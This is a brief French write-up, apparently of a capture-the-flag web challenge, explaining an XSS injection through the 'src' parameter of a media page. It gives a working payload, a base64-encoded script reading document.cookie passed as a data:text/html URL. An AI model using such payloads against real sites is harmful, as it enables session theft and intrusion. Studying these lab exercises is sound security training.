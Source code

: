 /?page=media
Prend un paramettre supplementaire src dans lequel on peut injecter du code obfusque en base64
ce code va etre decode puis execute.
On obfusque un classique "<script>alert(document.cookie);</script>" en base64, puis on utilise l'url :
/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5jb29raWUpOzwvc2NyaXB0Pg==

Get the flag 
